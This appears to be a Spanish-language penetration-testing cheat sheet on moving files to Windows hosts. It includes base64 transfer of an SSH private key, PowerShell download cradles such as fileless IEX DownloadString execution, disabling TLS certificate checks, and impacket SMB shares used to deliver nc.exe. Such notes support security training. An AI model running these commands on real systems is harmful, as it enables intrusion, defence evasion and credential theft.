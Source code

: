 ## Windows File Transfer Methods

### Descarga de Archivos
**PowerShell Base64 Encode & Decode**
```
#Linux Origen
md5sum id_rsa
cat id_rsa | base64 -w 0; echo

#Windows Destino
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("<cadena_base64>"))
Get-FileHash C:\Users\Public\id_rsa -Algorithm MD5

#Es util para payloads pequeños: CMD máx. 8191 caracteres.
```
**PowerShell Web Downloads**

```
#WebClient – File Download (Descarga normal de archivos ya que normalmente el https no es bloqueado en las organizaciones)
(New-Object Net.WebClient).DownloadFile('https://url/file.ps1','C:\Users\Public\file.ps1')
(New-Object Net.WebClient).DownloadFileAsync('https://url/file.ps1','C:\Users\Public\file.ps1')

#WebClient – Fileless (IEX) (Se ejecuta el archivo directamente en memoria, es decir no se almacena)
IEX (New-Object Net.WebClient).DownloadString('https://url/script.ps1')
(New-Object Net.WebClient).DownloadString('https://url/script.ps1') | IEX

#Invoke-WebRequest (iwr, curl, wget) (Bypass de descarga de archivos en caso de bloqueo)
Invoke-WebRequest https://url/file.ps1 -OutFile file.ps1
Invoke-WebRequest https://ip/file.ps1 -UseBasicParsing | IEX

#Bypass SSL/TLS (Por si no se tienen certificados validos)
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Downloads
```
#Iniciar servidor SMB
sudo impacket-smbserver share -smb2support /tmp/smbshare

#Copia de archivos con windows
copy \\192.168.220.133\share\nc.exe

#Bypass de bloqueo de invitados - Agregandole conexion con credenciales
sudo impacket-smbserver share -smb2support /tmp/smbshare -user User -password Password

net use n: \\192.168.220.133\share /user:User Password
copy n:\nc.exe

```

